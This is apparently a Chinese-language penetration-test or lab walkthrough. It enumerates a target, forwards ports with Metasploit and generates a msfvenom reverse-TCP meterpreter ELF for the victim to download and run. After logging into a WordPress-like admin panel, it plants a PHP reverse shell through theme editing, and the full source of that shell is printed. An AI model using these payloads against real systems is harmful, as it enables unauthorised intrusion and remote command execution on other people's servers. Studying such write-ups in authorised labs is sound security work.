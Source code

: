 dig枚举域名

![](attachments/Pasted%20image%2020230303162921.png)

利用msf做端口转发
`portfwd add -l 18080 -r 172.19.0.1 -p 8080
生成elf程序
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.163.129 LPORT=8080 -f elf -o shell.elf`
受害机wget下载然后给权限运行

![](attachments/Pasted%20image%2020230303160933.png)

现在访问127.0.0.1:18080可以看到apache的页面

![](attachments/Pasted%20image%2020230303163134.png)

但是没有看到cms，可能是站点域名的设置，需要更改一下host文件

![](attachments/Pasted%20image%2020230303164733.png)

直接访问

![](attachments/Pasted%20image%2020230303180416.png)

dirsearch扫目录

![](attachments/Pasted%20image%2020230303180408.png)

结合先前获得的账号密码，直接登录后台

![](attachments/Pasted%20image%2020230303180814.png)

进后台之后是一个类Wordpress的网站，在Theme哪里去做修改拿shell,下面是一个php的反弹shell

```php
<?php 
set_time_limit(0); 
$ip=$_REQUEST['ip'];
$port=$_REQUEST['port'];
$fp=@fsockopen($ip,$port,$errno,$errstr);
if(!$fp){echo "error";}
else{
	fputs($fp,"\n+++++++++++++connect sucess+++++++++\n");
	while(!feof($fp)){
	fputs($fp,"shell:");
	$shell=fgets($fp);
	$message=`$shell`;
	fputs($fp,$message);
	}
fclose($fp);
}
?>

```
